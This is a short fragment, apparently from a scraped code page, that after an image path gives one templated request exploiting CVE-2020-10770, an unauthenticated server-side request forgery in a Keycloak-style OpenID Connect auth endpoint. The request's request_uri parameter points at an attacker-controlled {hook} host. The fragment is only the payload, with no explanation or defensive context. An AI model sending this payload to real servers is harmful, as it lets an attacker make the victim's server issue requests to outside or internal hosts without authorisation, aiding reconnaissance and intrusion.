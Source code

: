 Unauthenticated SSRF CVE-2020-10770:- {Host}/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://{hook}
